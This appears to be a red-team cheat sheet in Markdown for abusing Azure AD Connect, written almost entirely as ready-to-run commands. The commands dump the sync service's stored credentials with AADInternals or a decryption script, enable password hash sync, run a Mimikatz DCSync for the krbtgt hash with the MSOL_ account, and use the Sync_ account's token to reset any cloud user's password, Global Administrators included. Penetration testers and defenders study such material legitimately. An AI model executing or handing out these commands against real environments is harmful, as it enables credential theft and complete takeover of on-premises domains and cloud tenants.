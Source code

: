 #### Check if AD Connect is installed on the server
```
Get-ADSyncConnector
```

#### Dumping AAD Connect credentials
- If it fails check if the service is running
```
Import-Module .\AADInternals.psd1
Get-AADIntSyncCredentials
```

- Or use https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c#file-azuread_decrypt_msol_v2-ps1
```
powershell.exe -f C:\users\public\azuread_decrypt_msol_v2.ps1
```

#### Error
- If the error `[!] Could not connect to localdb...` shows. Change the SQL Instance name
```
Import-Module "C:\Program Files\Microsoft Azure AD Sync\Bin\ADSync\ADSync.psd1"
Get-ADSyncDatabaseConfiguration
```
- Edit line 4 of the script

### Password Hash Sync Abuse
#### Turn on password hash sync
- AAD Connect service account can turn on Password hash sync
```
Set-AADIntPasswordHashSyncEnabled -Enabled $true
```

### Abusing On-Prem MSOL_ Account
#### Run DCSync with creds of MSOL_* account
```
runas /netonly /user:<DOMAIN>\MSOL_<ID> cmd 
Invoke-Mimikatz -Command '"lsadump::dcsync/user:<DOMAIN>\krbtgt /domain:<DOMAIN> /dc:<DC NAME>"'
```

### Reset password of cloud user
- Using the Sync_* account we can reset password for any user. (Including Global Administrator and the user who created the tenant)

#### Using the creds, request an access token for AADGraph and save it to cache using the SYNC account.
```
Import-Module .\AADInternals.psd1
$passwd = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<SYNC USERNAME>", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
```
